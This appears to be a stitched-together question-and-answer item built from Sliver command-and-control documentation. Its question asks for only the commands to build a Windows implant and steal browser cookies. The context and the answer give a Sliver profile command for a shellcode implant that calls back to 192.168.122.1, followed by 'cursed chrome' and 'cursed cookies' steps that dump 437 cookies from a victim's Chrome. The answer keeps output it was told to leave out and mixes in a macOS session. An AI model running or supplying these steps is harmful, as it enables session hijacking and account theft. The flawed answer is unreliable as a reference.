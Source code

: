 Context:## Cursed Chrome
## Cursed Edge
## Cursed Electron
## Cursed Console
## Cursed Cookies
Starting in v1.5.28 the `cursed cookies` command can be used to dump a remote cursed process' cookies to a local file (newline delimited json), for example:
# Payload Generation on Sliver for Windows

Here are some  commands for generating payloads on Sliver, specifically targeting Windows.

## Generating a Windows Shellcode Payload
Create a new profile called `win-shellcode` that uses mutual TLS and connects to the server IP **192.168.122.1** in **shellcode** format.
```bash
sliver > profiles new --mtls 192.168.122.1 --format shellcode win-shellcode
```
```
[server] sliver (CHRONIC_GOAT) > cursed chrome

...

[server] sliver (CHRONIC_GOAT) > cursed cookies

? Select a curse: 44199  [Session 56a5cd6f]  /Applications/Google Chrome.app/Contents/MacOS/Google Chrome

[*] Successfully dumped 437 cookies
[*] Saved to cookies-20220925182151.json

```

 Question: Provide *only* the commands to generate a *Windows payload with Sliver*, establish a session, and extract cookies using the *cursed chrome* and *cursed cookies* commands in Sliver. Format the response as a list of commands in the exact order required \n - generate\n -curded chrome \n -cursed cookie \n Exclude any explanations or additional text and exclude the bash output, return me only the bash command. 

 Your response: 
```
sliver > profiles new --mtls 192.168.122.1 --format shellcode win-shellcode
[server] sliver (CHRONIC_GOAT) > cursed chrome
[server] sliver (CHRONIC_GOAT) > cursed cookies
? Select a curse: 44199  [Session 56a5cd6f]  /Applications/Google Chrome.app/Contents/MacOS/Google Chrome
[*] Successfully dumped 437 cookies
[*] Saved to cookies-20220925182151.json
```